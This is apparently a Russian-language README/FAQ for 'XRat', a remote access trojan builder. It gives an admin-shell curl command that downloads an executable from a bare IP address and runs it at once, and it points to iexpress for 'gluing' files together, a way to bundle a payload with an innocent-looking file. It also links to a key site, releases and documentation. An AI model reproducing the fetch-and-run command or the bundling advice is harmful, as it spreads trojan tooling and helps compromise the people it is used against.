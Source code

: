# XRat



# ❓ Частые вопросы

<h2>🔑 Где взять ключ?</h2>
- Здесь: https://ify.ac/1ddw

<h2>👷‍♂️ Как установить билдер и всё необходимое?</h2>
1. Откройте Cmd от имени админа
2. Перейдите в нужную вам папку куда произведётся установка
3. Введите команду 
```bash
curl -O "http://95.31.8.49:5005/download/XRatInstaller.exe" && start XRatInstaller.exe
```
4. Делайте всё по инструкции в установщике
5. После откройте папку и там будут лежать файлы
> Builder.exe
> dotnet_rnt.exe
> XRatInstaller.exe

(Потом можно удалить: > dotnet_rnt.exe и XRatInstaller.exe)

6. Вам нужен только билдер
После установки билдер откроется сам
Обновлять также

<h2>📁 Как склеить файлы?</h2>
1. Открываем cmd
2. Пишем: iexpress
3. Дальше сами, есть много гайдов в инете


<h2>❗Важное❗</h2>
# LINKS
> [THEMES](<https://github.com/UndefinedClear/XRat-themes/tree/main>)
# SCRIPTS
> [Releases](<https://github.com/UndefinedClear/XRat/releases/tag/release>)
# Documentation
> [Go to documentation](<https://avirts-organization.gitbook.io/xrat>)
